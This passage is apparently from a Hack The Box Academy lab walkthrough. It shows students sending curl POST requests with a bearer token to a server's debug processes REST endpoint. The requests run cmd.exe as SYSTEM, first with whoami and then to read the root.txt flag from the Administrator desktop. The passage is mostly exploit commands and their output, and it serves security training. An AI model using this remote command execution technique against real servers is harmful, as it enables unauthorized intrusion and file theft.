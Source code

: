 Code: shell

```shell
curl -X POST "http://STMIP/app/rest/debug/processes?exePath=cmd.exe&params=/c%20whoami" -H "Authorization: Bearer eyJ0eXA <SNIP> Q1NjU2NDM1"
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-z9z5rop7yg]─[~]
└──╼ [★]$ curl -X POST "http://10.129.22.176/app/rest/debug/processes?exePath=cmd.exe&params=/c%20whoami" -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.ZE5WVFYyM09YTm41R1JNVU50Uy1BbXhJUmhF.MjdkNWY4ZGItNjkzYi00ZTYzLWJhYTktMGFhMGQ1NjU2NDM1"

StdOut:nt authority\system

StdErr: 
Exit code: 0
Time: 160ms
```

Subsequently, students will use `python3` to URL encode the command to get the contents of the `root.txt` flag file:

Code: shell

```shell
python3 -c 'import urllib.parse; print(urllib.parse.quote("type C:\\Users\\Administrator\\Desktop\\root.txt"))'
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-z9z5rop7yg]─[~]
└──╼ [★]$ python3 -c 'import urllib.parse; print(urllib.parse.quote("type C:\\Users\\Administrator\\Desktop\\root.txt"))'

type%20C%3A%5CUsers%5CAdministrator%5CDesktop%5Croot.txt
```

Students will use the URL-encoded command to obtain the flag from the `root.txt` file located on the Administrator's Desktop:

Code: shell

```shell
curl -X POST "http://STMIP/app/rest/debug/processes?exePath=cmd.exe&params=/c%20type%20C%3A%5CUsers%5CAdministrator%5CDesktop%5Croot.txt" -H "Authorization: Bearer eyJ0eXA <SNIP> Q1NjU2NDM1"
```

```
┌─[us-academy-2]─[10.10.14.169]─[htb-ac-8414@htb-z9z5rop7yg]─[~]
└──╼ [★]$ curl -X POST "http://10.129.22.176/app/rest/debug/processes?exePath=cmd.exe&params=/c%20type%20C%3A%5CUsers%5CAdministrator%5CDesktop%5Croot.txt" -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.ZE5WVFYyM09YTm41R1JNVU50Uy1BbXhJUmhF.MjdkNWY4ZGItNjkzYi00ZTYzLWJhYTktMGFhMGQ1NjU2NDM1"

StdOut: {hidden}
StdErr: 
Exit code: 0
Time: 84ms
```

